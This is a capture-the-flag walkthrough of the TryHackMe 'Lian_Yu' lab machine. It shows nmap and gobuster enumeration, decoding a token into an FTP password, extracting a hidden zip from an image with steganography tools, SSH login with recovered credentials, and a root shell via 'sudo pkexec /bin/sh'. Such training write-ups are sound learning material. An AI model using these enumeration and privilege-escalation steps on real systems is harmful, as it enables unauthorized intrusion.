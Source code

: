```yaml
---
title: TryHackMe - Lian_Yu
author: Bonface
date: 2024-11-11 15:50:00 +0000
categories: [TryHackMe, Easy]
tags: [tryhackme, linux, nmap, privesc, http, ssh, linpeas]
image:
    path: /assets/img/try_hack_me/Easy/Lian_yu/0.jpeg
    alt: Lian_Yu
---
```

A beginner level security challenge.
Welcome to Lian_YU, this Arrowverse themed beginner CTF box! Capture the flags and have fun.

### nmap
```sh
21/tcp open ftp vsftpd 3.0.2
22/tcp open ssh OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey:
| 1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
| 2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
| 256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_ 256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp open http Apache httpd
|_http-server-header: Apache
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Purgatory
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 3,4
111/tcp6 rpcbind
| 100000 3,4
111/udp6 rpcbind
| 100024 1
34537/tcp status
| 100024 1
50996/udp status
| 100024 1
58218/udp6 status
|_ 100024 1
59541/tcp6 status
34537/tcp open status 1 (RPC #100024)
```

### http_80
**ip**  `10.10.5.96`

To Do List
-------------------------------------
- Visit the site
- Surf around
- Vie source code
- Run Gobuster

#### The Site
![](../assets/img/try_hack_me/Easy/Lian_yu/1.png)


The site and the source code has nothing much.
Also i ran `robots.txt` and got nothing.

### Gobuster
```sh
gobuster dir -u http://10.10.5.96 -w /usr/share/wordlists/dirb/common.txt
```

![](../assets/img/try_hack_me/Easy/Lian_yu/2.png)

```sh
gobuster dir -u http://10.10.5.96 -w /usr/share/wordlists/dirbuster/directory-list-2.3-
medium.txt
```
![](../assets/img/try_hack_me/Easy/Lian_yu/3.png)
`/island`
![](../assets/img/try_hack_me/Easy/Lian_yu/4.png)

`/island/source code`
![](../assets/img/try_hack_me/Easy/Lian_yu/5.png)

Here we get `vigilante`

### Gobuster /island

```sh
gobuster dir -u http://10.10.5.96/island -w /usr/share/wordlists/dirbuster/directory-list-2.3-
medium.txt
```

![](../assets/img/try_hack_me/Easy/Lian_yu/6.png)

Got the directory `/2100`

![](../assets/img/try_hack_me/Easy/Lian_yu/7.png)

![](../assets/img/try_hack_me/Easy/Lian_yu/8.png)
got a directory extension  `.ticket`

``Gobuster -x .tixket``

```sh
gobuster dir -u http://10.10.5.96/island -w /usr/share/wordlists/dirbuster/directory-list-2.3-
medium.txt -x .ticket
```

```sh
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:
http://10.10.117.94
[+] Method:
GET
[+] Threads:
10
[+] Wordlist:
/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes: 404
[+] User Agent:
gobuster/3.5
[+] Extensions:
ticket
[+] Timeout:
10s
===============================================================
2023/10/01 20:06:41 Starting gobuster in directory enumeration mode
===============================================================
Progress: 20244 / 441122 (17.59%)
/green_arrow.ticket (Status: 200) [Size: 71]
===============================================================
2023/10/01 20:17:28 Finished
===============================================================
```

`/green_arrow.tcket`

```sh
curl http://10.10.5.96/island/2100/green_arrow.ticket
```
- This is just a token to get into Queen's Gambit(Ship)
`RTy8yhBQdscX`

I copied ‘RTy8yhBQdscX’ and used an online tool to identify the hash.
It turns out that the text was encoded with base58. so i opened cyberchef.   `!#th3h00d `

### ftp_21

username  `vigilante`
password  `!#th3h00d`

 ```sh
ftp 10.10.5.96
```

From the FTP server i was able to get some files
• aa.jpg
• Leave_me_alone.PNG
• Queenâ€™s_Gambit.PNG
• .other_user

![](../assets/img/try_hack_me/Easy/Lian_yu/9.png)

After checking the flies with binwalk i noticed that Leave_me_alone.PNG has a file format error.

I tried to correct the error since it was a `.PNG` file. The first 16 digits magic number of a .PNG file is `89 50 4E 47 0D 0A 1A 0A`.

I edited the magic number of Leave_me_alone.PNG
using `Hexedit` and see if the error would be corrected.
![](../assets/img/try_hack_me/Easy/Lian_yu/10.png)

After i edited the magic numbers i used binwalk to look at it again and now the error is gone.
I opened Leave_me_alone.PNG to check the content.
![](../assets/img/try_hack_me/Easy/Lian_yu/11.png)

I used `stegseek` to see if there are any hidden files in all the files i got from the ftp server.
![](../assets/img/try_hack_me/Easy/Lian_yu/12.png)

I found out that there is an hidden file `ss.zip` inside `aa.jpg`.

The content of Leave_me_alone.PNG is the passphrase to extract the hidden contents in aa.jpg using `steghide` or any other stenography tool.

The hidden file is a .zip file. i extracted the content using unzip.
![](../assets/img/try_hack_me/Easy/Lian_yu/13.png)

###  ssh_22

#### Details

Open ssh port = `22`
username = `slade`
password = `M3tahuman`

```sh
 ssh slade@10.10.5.96
```
![](../assets/img/try_hack_me/Easy/Lian_yu/14.png)

Now we can read the user flag easily.
![](../assets/img/try_hack_me/Easy/Lian_yu/15.png)


### Privilege Escalation
#### To Do List
sudo -l
cat /etc/crontab
find / -perm -u=s -type f 2>/dev/null

![](../assets/img/try_hack_me/Easy/Lian_yu/16.png)

After checking the sudoers it shows that i can use /usr/bin/pkexec to escalate my privilege since it is the sudoers file.

I checked gtfobins to see how i would use it.
```sh
sudo pkexec /bin/sh
```
![](../assets/img/try_hack_me/Easy/Lian_yu/17.png)

**THAT'S IT FOR THE ROOM!!!**
